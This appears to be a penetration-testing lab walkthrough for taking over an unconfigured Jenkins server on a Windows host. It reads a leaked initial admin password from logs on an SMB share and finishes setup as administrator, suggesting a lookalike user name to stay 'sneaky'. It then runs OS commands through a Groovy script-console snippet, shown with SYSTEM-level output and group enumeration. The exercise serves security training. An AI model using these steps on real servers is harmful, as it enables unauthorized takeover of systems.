







Insecure Jenkins
1. First impressions
This Jenkins server appears to have been installed but never fully configured. This is acctually common with software that ships with other software.

The web console tells us that there is an admin password written somewhere in a directory we don’t have access to. However, it also mentions the file is written to the Jenkins log.
2. Accessing the Jenkins dir from the SMB share
Connect back to the SMB share we accessed previously. Take a look inside the Jenkins directory. 
There appear to be three files with the .log extention. Download them both. Looking inside the err log file we can see the one-time admin password.
jenkins.err.log
2023-03-30 15:27:34.096+0000 [id=1] WARNING o.e.j.s.handler.ContextHandler#setContextPath: Empty contextPath
2023-03-30 15:27:34.437+0000 [id=1] INFO org.eclipse.jetty.server.Server#doStart: jetty-10.0.13; built: 2022-12-07T20:13:20.134Z; git: 1c2636ea05c0ca8de1ffd6ca7f3a98ac084c766d; jvm 17.0.6+9-LTS-190
2023-03-30 15:27:38.030+0000 [id=1] INFO o.e.j.w.StandardDescriptorProcessor#visitServlet: NO JSP Support for /, did not find org.eclipse.jetty.jsp.JettyJspServlet
2023-03-30 15:27:38.499+0000 [id=1] INFO o.e.j.s.s.DefaultSessionIdManager#doStart: Session workerName=node0
2023-03-30 15:27:41.307+0000 [id=1] INFO hudson.WebAppMain#contextInitialized: Jenkins home directory: C:\ProgramData\Jenkins\.jenkins found at: EnvVars.masterEnvVars.get("JENKINS_HOME")
2023-03-30 15:27:41.725+0000 [id=1] INFO o.e.j.s.handler.ContextHandler#doStart: Started w.@31c269fd{Jenkins v2.387.1,/,file:///C:/ProgramData/Jenkins/war/,AVAILABLE}{C:\ProgramData\Jenkins\war}
2023-03-30 15:27:41.803+0000 [id=1] INFO o.e.j.server.AbstractConnector#doStart: Started ServerConnector@6591f517{HTTP/1.1, (http/1.1)}{0.0.0.0:8080}
2023-03-30 15:27:41.865+0000 [id=1] INFO org.eclipse.jetty.server.Server#doStart: Started Server@55ca8de8{STARTING}[10.0.13,sto=0] @12336ms
2023-03-30 15:27:41.881+0000 [id=25] INFO winstone.Logger#logInternal: Winstone Servlet Engine running: controlPort=disabled
2023-03-30 15:27:42.801+0000 [id=32] INFO jenkins.InitReactorRunner$1#onAttained: Started initialization
2023-03-30 15:27:43.068+0000 [id=32] INFO jenkins.InitReactorRunner$1#onAttained: Listed all plugins
2023-03-30 15:27:46.271+0000 [id=30] INFO jenkins.InitReactorRunner$1#onAttained: Prepared all plugins
2023-03-30 15:27:46.286+0000 [id=30] INFO jenkins.InitReactorRunner$1#onAttained: Started all plugins
2023-03-30 15:27:46.328+0000 [id=32] INFO jenkins.InitReactorRunner$1#onAttained: Augmented all extensions2023-03-30 15:27:47.506+0000 [id=31] INFO jenkins.InitReactorRunner$1#onAttained: System config loaded
2023-03-30 15:27:47.506+0000 [id=33] INFO jenkins.InitReactorRunner$1#onAttained: System config adapted
2023-03-30 15:27:47.506+0000 [id=33] INFO jenkins.InitReactorRunner$1#onAttained: Loaded all jobs
2023-03-30 15:27:47.506+0000 [id=33] INFO jenkins.InitReactorRunner$1#onAttained: Configuration for all jobs updated
2023-03-30 15:27:47.584+0000 [id=31] INFO jenkins.install.SetupWizard#init:
*************************************************************
*************************************************************
*************************************************************
Jenkins initial setup is required. An admin user has been created and a password generated.
Please use the following password to proceed to installation:
f9d8aa****************321f63c6fa
This may also be found at: C:\ProgramData\Jenkins\.jenkins\secrets\initialAdminPassword
*************************************************************
*************************************************************
*************************************************************
2023-03-30 15:28:08.935+0000 [id=33] INFO jenkins.InitReactorRunner$1#onAttained: Completed initialization
2023-03-30 15:28:08.983+0000 [id=24] INFO hudson.lifecycle.Lifecycle#onReady: Jenkins is fully up and running
Here we can see the temporary admin password just as expected f9d8aa****************321f63c6fa.
3. Finish setting up with the admin password
:WARNING: You should have full resolution screenshots with timestamps of every action you take to setup this Jenkins server
- Enter the temporary admin password and click on the “Continue” button

-
Click on the big “Install suggested plugins” button 
-
Once the installation wizard finishes select “Skip and continue as admin”. Alternitively you could create an admin user, maybe name it richard.f if you’re trying to be sneaky. 
-
Nothing to do here just click on the “Save and Finish” button. 
-
Contratulations you are now the Jenkins administrator and this server is ready for use. Click on “Start using Jenkins”. 
:WARNING: You should have full resolution screenshots with timestamps of every action you took to setup this Jenkins server
Now that we have admin access to the Jenkins web console we can ensure that the script console is turned on. This will allow us to command the underlying operating system using whatever permissions this Jenkins server is currently running with.
4. Groovyscript OS command execution
With the script console enabled (it’s enabled by default), executing OS commands is trivial using Groovyscript
- Navigate to /script and run the following Groovyscript snippet.
def sout = new StringBuffer(), serr = new StringBuffer();
def proc = 'cmd.exe /c dir'.execute();
proc.consumeProcessOutput(sout, serr);
proc.waitForOrKill(1000);
println "out> $sout err> $serr"

4.1. Additional target enumeration
Now you can just update cmd.exe /c dir to whatever Windows command you want to run.
- Use whoami to figure out what level of permissions the Jenkins server is running with
out> nt authority\system
err>
- Use net localgroup to see a list of local groups for this machine
out>
Aliases for \\FEYNMAN-WINSRV1
-------------------------------------------------------------------------------
*Access Control Assistance Operators
*Administrators
*Backup Operators
*Certificate Service DCOM Access
*Cryptographic Operators
*Device Owners
*Distributed COM Users
*Event Log Readers
*Guests
*Hyper-V Administrators
*IIS_IUSRS
*Network Configuration Operators
*Performance Log Users
*Performance Monitor Users
*Power Users
*Print Operators
*RDS Endpoint Servers
*RDS Management Servers
*RDS Remote Access Servers
*Remote Desktop Users
*Remote Management Users
*Replicator
*Storage Replica Administrators
*System Managed Accounts Group
*Users
The command completed successfully.
err>
- Go through each group with net localgroup [GROUPNAME] and see if there is anything interesting